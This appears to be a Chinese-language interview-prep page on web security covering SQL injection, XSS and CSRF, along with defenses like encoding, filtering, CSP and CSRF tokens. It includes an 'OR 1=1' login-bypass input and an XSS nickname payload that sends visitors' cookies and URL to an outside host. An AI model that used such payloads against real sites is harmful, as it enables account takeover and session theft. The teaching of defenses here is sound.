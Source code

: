 ```yaml
---
nav:
  title: 面试
  path: /interview
group:
  title: 💊 面试题库
  order: 2
---
```


# 安全

1. 引用 js 包（内容很少，也可以将内容拷贝出来，直接引用方法）
1. 将需要提交的数据经过 filter 即可，如下：



```javascript
浏览器自带转换为字符串
var newValue = safetools.encode(value)

正则加密（可能有兼容）
var newValue = safetools.reEncode(value)

正则解密（可能有兼容）
var newValue = safetools.reDecode(value)
```


> tag: 前端交互，涉及到数据流动并需要在返回在页面上显示的，一定要经过后端！



## 常见的攻击手段


### 1. SQL 脚本注入攻击于与防御


#### 概念


> 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的SQL Injection，即SQL注入.



#### 场景


语句


```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```


如果恶意填入：


> userName = "1' OR '1'='1"; passWord = "1' OR '1'='1";



既可实现无密码登录，美滋滋吧...


#### 处理方式


前端和 XSS 处理类似，对传递的数据进行筛选，重点是后端对数据的处理！


### 2. XSS 攻击与防御


#### 概念


> 跨站脚本（Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。
> XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。



#### 类型


##### 简单分类


1. 反射型xss



通过一次 xss 请求，将数据渲染到页面，请求 -> 返回数据，例子：搜索
2. 储存型xss


通过一次 xss 请求，直接将数据储存在数据库，下次调用无需继续请求，例如：评论


##### 复杂分类


1. client 型
1. server 型



#### 处理方式


- 编码



> 将 > ( 标签转换为字符串，可以处理大多数 xss 攻击



- 过滤



> 有的语句并不完全依赖<>标签，例如src="javascript:alert(1);"



- 校正



> 这个照理来说应该后端处理，目前没碰到这种场景



```javascript
> 一个直播平台，用户可以进入观看，主播可以设置自己的昵称:
var starNickName = '${starNickname}'
```


这怕是要翻水水了...假设是我是主播，我把昵称设置为：


```javascript
';window.location.href="http//:blog.jzxer.cn/?cook=" + document.cookie + '&url=' window.location.href;''
```


这一串如果传到后端，而后端又没有校正的话的话，这怕是傻眼了...观众进来一个死一个，我应该也会进去蹲几天吧，吧。。。


- CSP



```html
在头部加入：

<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```


meta：不信任任何URL，即不加载任何资源样式表只信任 cdn.example.org 和 third-party.org 框架 (frame) 必须使用HTTPS协议加载 其他资源：没有限制 启用后，不符合 CSP 的外部资源就会被阻止加载。


> 注意：该属性目前比较新，hotfix 和 chorme 支持较好，并不适用于所有的浏览器。



### 3. CSRF


> 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。



#### 处理方式


- 验证码



在请求的同时，带个token,或者验证码


- Referer Check



这个可以伪造...但加入更保险


> 注意：如果网站有XSS漏洞或者一些跨域漏洞，可能导致Token泄露。 在XSS攻击下，读取Token值，然后再构造出一个合法的请求，可以称为：XSRF。



### 小结


web 安全是个需要长期坚持的事情，没有绝对安全的产品，我们需要做到的就是能够提前预防和及时修复。
